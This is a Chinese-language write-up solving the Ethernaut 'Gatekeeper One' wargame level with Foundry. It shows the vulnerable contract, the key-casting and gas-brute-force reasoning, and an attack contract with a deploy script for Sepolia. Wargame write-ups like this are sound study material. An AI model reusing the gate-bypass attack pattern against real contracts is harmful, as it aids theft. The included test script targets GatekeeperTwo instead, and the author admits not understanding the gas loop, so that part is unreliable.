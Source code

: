 # Foundry 通关 Ethernaut（12）— **Gatekeeper One**

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

通过修饰符的限制，成功调用函数更新用户

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. 一个地址类型状态变量 **entrant**，默认为 0x0
2. 函数修饰符：
   - gateOne：函数的当前调用者（msg.sender）与 原始调用者（tx.origin）不相等时执行函数
   - gateTwo：使用 `gasleft()` 函数获取到交易剩余的 gas fee 为 8191的整数倍时执行函数
   - gateThree:   输入的 _gatekey 值满足三个 require 语句时执行函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 思路

### gateOne

很经典的 `msg.sender` 与 `tx.origin` 不相等，在 **Telephone** 这一关中给出过解法，构建一个攻击合约调用即可

### gateTwo

这个比较复杂，涉及到剩余的 gas 问题，必须是 8191的整数呗，所以整个 gas 应该是 8191 * n + x ，这个x是总共的消耗的 gas，这里关于他的解法有点疑惑

```solidity
      for (uint256 i = 0; i < 8191; i++) {
            (bool result, ) = address(gatekeeperOne).call{gas: i + 8191 * 3}(
                abi.encodeWithSignature("enter(bytes8)", _gateKey)
            );
            if (result) {
                break;
            }
        }
```

这个循环没有理清楚

### gateThree

这里要做一个较为复杂的运算题，涉及到 显示转换以及隐式转换的位运算，截取哪里

**前提：**

byte8 = 8 字节，16字符，64 bit

地址类型 20字节，40字符，160 bit

假设 _gateKey = 0x0123456789abcdef

假设 tx.origin = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4

- require1

  ```solidity
  (uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
  ```

  1. 条件1 ：uint32(uint64(_gateKey) = 0x89abcdef
  2. 条件2 ：uint16(uint64(_gateKey)) = 0x cdef = 0x0000cdef （隐式转换，两个数要比较，无符号整型可以转换成跟它大小相等或更大的字节类型） ****

  结论：_gateKey = 0x01234567**0000**cdef (5,6字节为0)

- require2

  ```solidity
  uint32(uint64(_gateKey)) != uint64(_gateKey)
  ```

  1. 条件1 ：uint32(uint64(_gateKey) = 0x0000cdef = 0x000000000000cdef
  2. 条件2 ：uint64(_gateKey) = 0x01234567**0000**cdef

  结论: 最后8位一定相等，则 _gateKey 前8位有一个不为0即可

- require3

  ```solidity
  (uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))
  ```

  1. 条件1 ：uint32(uint64(_gateKey) = 0x0000cdef
  2. 条件2 ：uint16(uint160(tx.origin)) = 0xddC4 = 0x0000ddC4

  结论:  _gateKey 最后4位和 tx.origin 相等

总结论：_gateKey 8字节数， 前4字节至少有1位不为0，5,6字节为0，最后2字节和 tx.origin 相等，最后可以构造出这样的数字：**0x111111110000????**

(tx.origin 可以由攻击者获取，最后四位能拿到)

## foundry 复现

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.0;
   
   import {Test, console} from "forge-std/Test.sol";
   import {GatekeeperTwo,Attack} from "../src/GatekeeperTwo.sol";
   
   contract GatekeeperTwoTest is Test {
       GatekeeperTwo public gatekeeper;
       Attack public attackContract;
       address  public attacker = address(0x1234);
   
       function setUp() external {
           gatekeeper = new GatekeeperTwo();
           console.log("before",gatekeeper.entrant());
           // 切换到攻击者部署
           vm.prank(attacker);
           attackContract = new Attack(address(gatekeeper));
           // 部署后，构造函数中的调用完成则entrant改变
           console.log("after",gatekeeper.entrant());
   
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/GatekeeperTwo.t.sol -vvvv
   ```

![image-20240918123343337](../pict/image-20240918123343337.png)

我们可以看到，部署攻击合约后，用户改变

### 链上交互

1. 攻击合约

   ```solidity
   contract Attack {
       GatekeeperOne public gatekeeperOne;
       
       // 最后四位根据调用者的地址来
       bytes8 public _gateKey = 0x111111110000ddC4;
   
       constructor(address _address) {
           gatekeeperOne = GatekeeperOne(_address);
       }
   
       function attack() public {
           for (uint256 i = 0; i < 8191; i++) {
               (bool result, ) = address(gatekeeperOne).call{gas: i + 8191 * 3}(
                   abi.encodeWithSignature("enter(bytes8)", _gateKey)
               );
               if (result) {
                   break;
               }
           }
       }
   }
   ```

   部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {GatekeeperOne,Attack} from "../src/GatekeeperOne.sol";
   
   contract AttackScript is Script {
       GatekeeperOne public gatekeeperOne;
       Attack public attack;
   
       function setUp() public {
           gatekeeperOne = GatekeeperOne(关卡实例合约地址);
       }
   
       function run() public {
           vm.startBroadcast();
           attack = new Attack(关卡实例合约地址);
           console.log("before",gatekeeperOne.entrant());
           attack.attack();
           console.log("after",gatekeeperOne.entrant());
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```bash
   forge script script/GatekeeperOne.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --account [AccountName] interactive
   ```

   ![image-20240918123111212](../pict/image-20240918123111212.png)

可以看到，攻击前后，entrant 成功改变




